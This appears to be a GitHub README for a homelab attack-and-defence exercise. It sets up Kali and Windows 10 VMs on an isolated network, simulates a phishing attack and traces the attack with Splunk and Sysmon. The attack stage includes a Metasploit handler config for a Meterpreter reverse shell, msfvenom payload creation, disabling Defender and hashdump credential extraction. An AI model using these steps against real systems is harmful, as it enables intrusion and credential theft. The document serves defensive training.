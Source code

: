 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it. This documentation covers the setup, configuration, attack simulation, investigation, and remediation steps, providing a thorough demonstration of attack and defence skills in a controlled lab environment.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Networking > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk to monitor system activities.
   - Verify the installation by navigating to `127.0.0.1:8000` and logging in.

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   - Copy the add-on directory from `/etc/app` to `/etc/deployment-app`.

3. **Configure Sysmon:**
   - Download and configure Sysmon with an XML configuration file for detailed process monitoring.

4. **Deactivate Windows Defender:**
   - Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:**
   - Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command]()

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  
     ![Nmap scan results]()

3. **Malware Creation:**
   - Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

4. **Phishing Email:**
   - Craft a phishing email with the malware attachment and send it to the victim.  
     ![Screenshot of phishing email]()

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your_IP>
   set LPORT 4444
   exploit
   ```

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.

### Step 3: Access the Victim Machine

- Once the malware is executed, access the victim machine via the Meterpreter shell.
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Analyze Sysmon logs in Splunk to trace malware behavior, focusing on:
  - **Process Creation**
  - **Network Connections**
  - **Registry Modifications**
- Document each log entry to map the attack sequence.  
  ![Relevant Splunk log screenshot]()

### 2. Investigation Findings

- Document findings, including:
  - How the attack was executed
  - Impact on the system
  - Vulnerabilities that were exploited

### 3. Malware Removal and Remediation

- Terminate the malicious process.
  - ![Task Manager Screenshot displaying malware process]()
- Delete the malware executable.
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

